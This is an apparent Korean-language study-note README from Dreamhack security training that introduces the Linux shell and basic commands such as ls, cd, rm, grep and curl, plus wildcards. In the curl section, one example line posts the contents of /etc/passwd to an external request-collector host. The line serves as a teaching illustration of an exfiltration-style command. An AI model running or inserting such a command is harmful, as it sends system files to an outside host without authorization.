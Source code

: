 # dreamhack

- 리눅스에 관한 기초적인 지식과 리눅스 사용법
- Character User Interface (CUI) 기반의 터미널

## 셸(Shell)
- 유저가 리눅스 시스템을 이용할 수 있는 인터페이스
- ctrl + alt + T (윈도우, 리눅스 기준)

## 셸 프롬프트(Shell Prompt)
- 현재 유저의 유저 ID와 해당 유저가 속해 있는 그룹 ID를 보여주는 명령어

## 기초적인 명령어
1. sudo apt update
    - apt 명령어로 설치 가능한 소프트웨어 패키지 목록을 업데이트
2. sudo apt upgrade
    - 리눅스에 설치된 소프트웨어 패키지의 버전을 업그레이드
3. id
    - 현재 유저의 유저 ID와 해당 유저가 속해있는 그룹 ID를 출력
4. pwd
    - Print Working Directory의 줄임말로 현재 작업 중인 디렉토리의 경로를 출력
5. ls
    - List의 줄임말로 디렉토리의 내용을 출력하는 명령어
    - 현재 디렉토리 뿐만 아니라 임의 디렉토리의 내용을 출력하는 것도 가능합니다. 루트 디렉토리인 / 디렉토리의 내용을 출력하는 ls -l / 을 실행
6. cd
    - Change Directory의 줄임말로 작업중인 디렉토리를 변경하는 명령어
    - 절대 경로는 루트 디렉토리 / 를 시작으로 모든 경로를 적어서 표현하는 경로
    - 상대 경로는 현재 디렉토리를 기준으로 상위 디렉토리 또는 하위 디렉토리로 뻗어 나가는 경로
7. mkdir
    - Make Directory의 줄임말로 디렉토리를 생성하는 명령어
8. touch
    - touch 명령어는 비어 있는 새로운 파일을 만드는 데 사용
9. mv
    - Move의 줄임말로 파일이나 디렉토리의 위치를 옮길 때 사용하는 명령어
10. rm
    - Remove의 줄임말로 파일이나 디렉토리를 삭제하는 명령어
11. cat
    - 파일의 내용을 출력하는 명령어
12. file
    - 파일의 유형을 출력하는 명령어
13. echo
    - 셸에 유저가 입력한 텍스트를 출력
14. cp
    - Copy의 줄임말로 파일이나 디렉토리를 복사하는 명령어
15. grep
    - 전체에서 특정 문자열을 찾을 때 사용
16. man
    - Manual의 줄임말로 특정 명령어의 매뉴얼을 보여주는 명령어
17. curl
    - client URL의 줄임말로 서버에 데이터를 보내거나 서버로부터 데이터를 받는 데이터 전송 명령어
        - -o file : 전송 받은 데이터를 파일에 저장
        - -i : 결과 값에 HTTP 응답 헤더를 포함
        - -X "method" : HTTP 요청 메소드를 지정
        - -d "key=value" : HTTP POST 메소드로 데이터를 전송
    - -d "key=value" : HTTP POST 메소드로 데이터를 전송
        - $ curl "https://hmqtzgx.request.dreamhack.games" -d "`cat /etc/passwd`"
## 와일드카드
- 와일드카드(wildcards)는 리눅스에서 임의의 다른 문자를 나타낼 수 있는 특수 문자들을 의미
- cat he?lo 를 실행하여 hello 파일을 출력하는 모습